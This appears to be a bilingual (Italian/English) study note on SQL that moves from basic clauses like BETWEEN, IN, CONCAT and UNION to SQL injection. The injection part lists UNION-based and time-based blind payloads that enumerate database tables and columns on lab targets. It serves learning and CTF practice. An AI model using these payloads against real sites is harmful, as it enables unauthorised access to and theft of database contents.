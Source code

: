 # SQL
SQL Injection Introduction [here](http://web-17.challs.olicyber.it/)

Query exercises [here](https://www.sql-practice.com/)

### BETWEEN
Il primo dato deve essere il limite inferiore, il secondo il superiore, non viceversa.

> I limiti sono compresi: <br>
> ` BETWEEN 4 AND 10 ` comprende sia 4 che 10
> 
### IN
Al posto di usare molteplici ` OR ` uso un ` IN `; esso mi consente di cercare un valore in una lista di valori.

```sql
    SELECT ... WHERE name IN ('Sara','Vanessa','Marta','Giulia')
```

> Oltre al costrutto ` IN ` esiste anche il ` NOT IN `

### CONCAT
Permette di concatenare più stringhe
```sql
    SELECT CONCAT(FirstName, ', ' , City) FROM customers;
```
### UPPER and LOWER
The **UPPER** function converts all letters in the specified string to uppercase.
The **LOWER** function converts the string to lowercase.

```sql
    SELECT FirstName, UPPER(LastName) AS LastName FROM employees;
```
### UNION
`UNION` in SQL concat two or more `SELECT`, without the `ALL` keyword it consider all values once, so the duplicate will be delete.

> All the select in a UNION must have the same number of column

```sql
    SELECT ID, FirstName, LastName, City FROM First
    UNION ALL
    SELECT ID, FirstName, LastName, City FROM Second;
```
### SQL Injection
- database() return the name of the database

```sql
    UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
Una volta trovato il nome del database posso cercare tutte le tabelle che appartengono a questo database
*There are a couple of new things to learn in this query. Firstly, the method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users.*

```sql
    UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
    https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(2),2 where database() like 'sqli_four';--
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'u%';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
    username
```
